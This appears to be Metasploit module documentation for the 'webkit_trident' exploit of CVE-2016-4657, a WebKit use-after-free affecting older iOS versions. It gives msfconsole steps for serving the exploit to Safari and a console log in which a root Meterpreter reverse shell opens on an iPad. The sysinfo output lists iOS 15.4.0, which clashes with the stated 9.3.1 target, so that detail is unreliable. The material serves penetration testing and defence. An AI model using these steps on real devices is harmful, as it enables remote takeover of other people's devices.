 ## Description

This module exploits a UAF vulnerability in WebKit's JavaScriptCore library, CVE-2016-4657.

## Vulnerable Application

The exploit should work on 32-bit or 64-bit devices running iOS 9.3.4 or earlier, though it has been tested so far on 64-bit devices running 9.3.1.

## Verification Steps

 * Start msfconsole
 * `use exploit/apple_ios/browser/webkit_trident`
 * `set LHOST` and `SRVHOST` as appropriate
 * exploit
 * Browse to the given URL with a vulnerable device from Safari
 * Note that the payload is specially created for this exploit, due to sandbox
   limitations that prevent spawning new processes.

## Scenarios

### 64bit (ME279NF/A) running iOS 9.3.1:

```
msf exploit(apple_ios/browser/webkit_trident) >
[*] 192.168.0.101    webkit_trident - Request from Mozilla/5.0 (iPad; CPU OS 9_3_1 like Mac OS X) AppleWebKit/601.1.46 (KHTML, like Gecko) Version/9.0 Mobile/13E238 Safari/601.1
[*] 192.168.0.101    webkit_trident - Request from Mozilla/5.0 (iPad; CPU OS 9_3_1 like Mac OS X) AppleWebKit/601.1.46 (KHTML, like Gecko) Version/9.0 Mobile/13E238 Safari/601.1
[*] 192.168.0.101    webkit_trident - Sent exploit (770048 bytes)
[*] 192.168.0.101    webkit_trident - Request from Mozilla/5.0 (iPad; CPU OS 9_3_1 like Mac OS X) AppleWebKit/601.1.46 (KHTML, like Gecko) Version/9.0 Mobile/13E238 Safari/601.1
[+] 192.168.0.101    webkit_trident - Target is vulnerable.
[*] Meterpreter session 1 opened (192.168.0.110:4444 -> 192.168.0.101:52467) at 2018-05-30 14:49:59 +0200

msf exploit(apple_ios/browser/webkit_trident) > sessions -l

Active sessions
===============

  Id  Name  Type                           Information                                   Connection
  --  ----  ----                           -----------                                   ----------
  1         meterpreter aarch64/apple_ios  uid=0, gid=0, euid=0, egid=0 @ 192.168.0.101  192.168.0.110:4444 -> 192.168.0.101:52467 (192.168.0.101)

msf exploit(apple_ios/browser/webkit_trident) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter > sysinfo
Computer     : 192.168.0.101
OS           : iPad4,4 (iOS 15.4.0)
Architecture : arm64
BuildTuple   : aarch64-iphone-darwin
Meterpreter  : aarch64/apple_ios
```
